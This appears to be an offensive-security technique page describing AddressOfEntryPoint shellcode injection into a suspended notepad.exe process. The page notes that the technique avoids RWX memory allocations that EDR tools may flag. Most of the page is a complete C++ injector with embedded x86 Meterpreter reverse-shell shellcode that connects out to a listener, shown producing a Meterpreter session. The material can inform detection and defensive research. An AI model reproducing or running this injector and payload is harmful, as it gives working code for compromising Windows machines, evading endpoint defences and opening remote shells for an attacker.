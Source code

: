 ```yaml
---
description: Code Injection
---
```


# AddressOfEntryPoint Code Injection without VirtualAllocEx RWX

This is a shellcode injection technique that works as follows:

1. Start a target process into which the shellcode will be injected, in suspended state. 
2. Get `AddressOfEntryPoint` of the target process
3. Write shellcode to `AddressOfEntryPoint` retrieved in step 2
4. Resume target process
5. Catch the incoming shell

What's nice about this technique is that we do not need to allocate RWX memory pages in the victim process which some EDRs may not like.

## Execution

First, in order to get `AddressOfEntryPoint`, we need to get the image base address of the target process - notepad.exe:

![](../../.gitbook/assets/image%20%28125%29.png)

We then need to parse out the NT and Optional Headers and find the AddressEntryPoint \(Relative Virtual Address\) of the notepad.exe which in my case was at 0001bf90:

![](../../.gitbook/assets/image%20%2844%29.png)

Knowing notepad's image base address and an RVA of the AddressEntryPoint, we can get its Virtual Address \(by adding the two up\) and hijack the executable by overwriting the very first instructions found at that address with our shellcode:

![bytes at AddressOfEntryPoint get overwritten with shellcode](../../.gitbook/assets/overwrite-entrypoint.gif)

Resuming the suspended process executes our shellcode which results in a meterpreter session:

![](../../.gitbook/assets/overwrite-entrypoint-catch-meterpreter.gif)

## Code

```cpp
#include "pch.h"
#include <iostream>
#include <windows.h>
#include <winternl.h>
#pragma comment(lib, "ntdll")

int main()
{
	//x86 meterpreter
	unsigned char shellcode[] = 
		"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
		"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
		"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
		"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
		"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
		"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
		"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
		"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
		"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
		"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
		"\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54"
		"\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x05"
		"\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
		"\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
		"\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
		"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
		"\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00"
		"\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56"
		"\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
		"\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5"
		"\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85"
		"\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1"
		"\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
	
	STARTUPINFOA si;
	si = {};
	PROCESS_INFORMATION pi = {};
	PROCESS_BASIC_INFORMATION pbi = {};
	DWORD returnLength = 0;
	CreateProcessA(0, (LPSTR)"c:\\windows\\system32\\notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);

	// get target image PEB address and pointer to image base
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLength);
	DWORD pebOffset = (DWORD)pbi.PebBaseAddress + 8;

	// get target process image base address
	LPVOID imageBase = 0;
	ReadProcessMemory(pi.hProcess, (LPCVOID)pebOffset, &imageBase, 4, NULL);
	
	// read target process image headers
	BYTE headersBuffer[4096] = {};
	ReadProcessMemory(pi.hProcess, (LPCVOID)imageBase, headersBuffer, 4096, NULL);

	// get AddressOfEntryPoint
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)headersBuffer;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)headersBuffer + dosHeader->e_lfanew);
	LPVOID codeEntry = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD)imageBase);

	// write shellcode to image entry point and execute it
	WriteProcessMemory(pi.hProcess, codeEntry, shellcode, sizeof(shellcode), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```


